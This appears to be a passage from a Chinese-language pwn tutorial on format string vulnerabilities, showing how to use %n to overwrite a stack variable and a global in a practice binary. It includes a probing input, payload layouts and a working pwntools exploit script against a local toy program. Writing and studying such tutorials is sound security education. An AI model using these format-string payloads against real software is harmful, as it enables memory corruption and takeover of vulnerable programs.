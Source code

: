 简单的讲一下这个例子，三个整型变量a=123、b=456、c=789。a、b是全局变量，c是局部变量，数组s等待我们从scanf函数输入。可以明显的看到第二个printf函数存在格式化字符串漏洞。最后是三个判断，如果c = 16就打印“modified c.”，如果a = 2就打印“modified a for a small number.”，如果b = 0x12345678就打印“modified b for a big number!”

## 覆盖栈内存
这里我们选择让c = 16，使程序打印“modified c.”，可以从源码中看到第一次printf打印出了变量c的地址，所以不需要额外找了

首先我们通过前面的方法测试c变量在格式化字符串的第几个参数

```plain
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504741-026cdbf0-b1d1-4ded-b3d0-2f9dc9b77bdc.png)

我们可以通过结果看到变量c是在格式化字符串的第6个参数，接下来就可以根据上面的公式来构造payload了

```plain
c_addr + %012d + %6$n
```

首先第一个c_addr就是变量c的地址，可以通过接收第一次printf打印出来的字符获得。因为前面的c_addr已经占了4个字节，第二个%012d是为了补全16个字节，最后的%6$n是为了向第6个参数内写16，这个16就是前面的16个字节。这就是%n的能力

所以给出EXP：

```python
from pwn import *
sh = process('./overwrite')
c_addr = int(sh.recvuntil('\n', drop=True), 16) #获取c变量的地址
print hex(c_addr)
payload = p32(c_addr) + 'a'*12 + '%6$n' #构建payload
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

执行结果如下，可以看到输出的“modified c.”字符串：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504740-50d1925e-6f2b-4c85-a2fe-a1b50aa68a07.png)

## 覆盖任意地址内存
### 覆盖小数字
这个小是什么小呢，是小于机器字长的数字。拿2举例子，如果我想向变量中存一个2，那就会出现问题，回想一下刚在我们做的例子，%n会将前面输入的字节数存放到指定的参数地址中。但是我们将地址放在最前面，那么经过p32小端序转化之后地址本身就会占4个字节，所以经过%n存放的时候，向变量中写的数一定是大于等于4的，那这样一来我们想向变量中存放2的想法可能就要破灭了。我们拿a = 2举例，使程序输出字符串“modified a for a small number.”

但是我们想一想，地址一定要放在最前面吗，我们的%n是可以向指定的参数地址写入数字的，所以把原有的payload该一下：

```plain
'aa%k$naa' + p32(a_addr)
```

我们的payload的这么写，但并不是正确的“看”的方式，正确的打开方式应该是这样的：

```plain
’aa%k' + '$naa' +p32(a_addr)
```
